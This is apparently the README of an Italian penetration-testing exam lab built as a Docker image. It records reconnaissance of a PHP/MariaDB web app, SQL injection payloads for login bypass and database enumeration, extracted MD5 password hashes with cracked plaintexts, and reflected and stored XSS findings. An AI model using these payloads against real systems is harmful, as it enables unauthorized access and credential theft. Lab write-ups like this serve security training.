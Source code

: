 # ProgettoPT
Progetto Penetration Testing

*docker pull gabrielec/ptexam*

*docker run gabrielec/ptexam*

[Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)

Info generiche

- Debian (url random da pagina di errore Apache)

- Apache server 2.4.38 (url random da pagina di errore Apache)

- PHP 7.2.34 (Response Header e debug.php)

- MariaDB (carattere ' in username nella pagina login)

- Tabella con gli Utenti (Case insensitive):

  - Colonna Username (Campo Username nel Login: ' OR Username #)

  - Colonna Password (Campo Username nel Login: ' OR Password #)

  - Colonna Id (Campo Username nel Login: ' OR Id #)

- Query per Login:
  
  - seleziona due parametri (' OR 1 LIKE 1 UNION SELECT 1, 1 #)

  - Carattere = non permesso

  - sostituisce gli spazi con dei +

  - hash MD5 di password (Username: frog'; password: frog)

- Pagine (non banali) presenti: (metasploit: auxiliary/scanner/http/files_dir)

  - config.php
  
    - Vuota
  
  - debug.php
  
    - Server Administrator: webmaster@localhost

    - Server Root: /etc/apache2

    - DOCUMENT_ROOT: /var/www/html

    - SMTP

  - logout.php

- Utenti: (enum_users())

  - {'sysadmin', 'utente', 'agentx', 'tizio.incognito', 'jackofspade'}

- Il message di un report non viene visualizzato nella pagina /report.php

Vulnerabilità, PoF e Exploit

- SQL Injection (/login.php)
  
  - Bypass Login:

    - ' OR Username LIKE (SELECT Username) LIMIT 1; #

    - ' OR Username LIKE 'agentX' LIMIT 1; #

  - Password (hashed MD5):  (get_password())

    - agentx: b20e0aaa66fdd9a7a5b2ebf49d32b91b 

    - sysadmin: fcea920f7412b5da7be0cf42b8c93759 (Plain: 1234567)

    - utente: bed128365216c019988915ed3add75fb (Plain: passw0rd)

    - tizio.incognito: 5ebe2294ecd0e0f08eab7690d2a6ee69 (Plain: secret)

    - jackofspade: 617882784af86bff022c4b57a62c807b

  - Id:  (get_id())

    - agentx: 10 

    - sysadmin: 1337

    - utente: 42

    - tizio.incognito: 7

    - jackofspade: 8

(Informazioni sugli utenti confermate dall'injection sui reports)

- SQL Injection (/send.php) 
  
  - Tabella con i report con 2 campi (Campo title: test2', 'abc2'); # )

  - User MySQL connesso a PHP: admin@localhost (Campo title: 123', (SELECT user())); # )

  - System User: admin@localhost

  - Nome Database: niadb

  - Versione MariaDB: 10.3.39-MariaDB-0+deb10u2 ()

  - Tabelle DB: (inject_sql('(SELECT table_name FROM information_schema.tables WHERE table_schema LIKE 'niadb' LIMIT 0, 1)))

    - reports(repid: smallint, agent: varchar, title: varchar, message: varchar) (inject_sql("(SELECT CONCAT(column_name, data_type) FROM information_schema.columns WHERE table_schema LIKE 'niadb' AND table_name LIKE 'reports' LIMIT 0, 1)"))

    - agents(id:smallint, username: varchar, password: varchar) (inject_sql("(SELECT CONCAT(column_name, data_type) FROM information_schema.columns WHERE table_schema LIKE 'niadb' AND table_name LIKE 'agents' LIMIT 0, 1)"))

- Reflected XSS (/welcome.php)

- Reflected XSS (/recovery.php) ( <script>alert(1)</script> )

- Stored XSS (/report.php)